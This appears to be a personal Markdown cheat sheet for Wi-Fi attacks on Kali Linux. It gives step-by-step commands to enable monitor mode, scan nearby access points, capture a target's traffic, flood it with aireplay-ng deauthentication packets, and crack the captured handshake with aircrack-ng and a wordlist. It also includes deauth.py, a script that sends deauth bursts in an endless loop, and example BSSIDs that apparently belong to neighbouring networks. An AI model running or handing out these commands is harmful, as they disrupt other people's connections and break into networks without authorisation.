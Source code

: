 
### Channel list

``` bash
┌──(kali㉿kali)-[~]
└─$ iwlist channel
lo        no frequency information.

eth0      no frequency information.

eth1      no frequency information.

wlan0     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          Channel 05 : 2.432 GHz
          Channel 06 : 2.437 GHz
          Channel 07 : 2.442 GHz
          Channel 08 : 2.447 GHz
          Channel 09 : 2.452 GHz
          Channel 10 : 2.457 GHz
          Channel 11 : 2.462 GHz
          Channel 12 : 2.467 GHz
          Channel 13 : 2.472 GHz
          Channel 14 : 2.484 GHz
          Channel 36 : 5.18 GHz
          Channel 40 : 5.2 GHz
          Channel 44 : 5.22 GHz
          Channel 48 : 5.24 GHz
          Channel 52 : 5.26 GHz
          Channel 56 : 5.28 GHz
          Channel 60 : 5.3 GHz
          Channel 64 : 5.32 GHz
          Channel 100 : 5.5 GHz
          Channel 104 : 5.52 GHz
          Channel 108 : 5.54 GHz
          Channel 112 : 5.56 GHz
          Channel 116 : 5.58 GHz
          Channel 120 : 5.6 GHz
          Channel 124 : 5.62 GHz
          Channel 128 : 5.64 GHz
          Channel 132 : 5.66 GHz
          Channel 136 : 5.68 GHz
          Current Frequency:2.447 GHz (Channel 8)
```


### Enable monitor mode
``` bash
sudo ifconfig wlan0 down
# sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Set Channel

``` bash
sudo iw dev wlan0mon set channel 8
```


### Airodump-ng scanning
``` bash
sudo airodump-ng wlan0mon

# 5GHz capture
airodump-ng --band a wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### Save traffic packets
``` bash
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### Execute aireplay-ng
``` bash
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```

### deauth.py
```python
import os, time

while True:
	os.system("aireplay-ng --deauth 10 -a 00:00:00:00:00:00 wlan0")
	time.sleep(1)

```

```bash
sudo python3 deauth.py
```




### Aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
``` bash
sudo airmon-ng start wlan0mon 5
sudo iwconfig wlan0mon channel 5
```



### Cracking password
``` bash
sudo aircrack-ng filename.cap -w dict.lst
```

---

#### Reference

- https://deliberate-practice.tistory.com/48

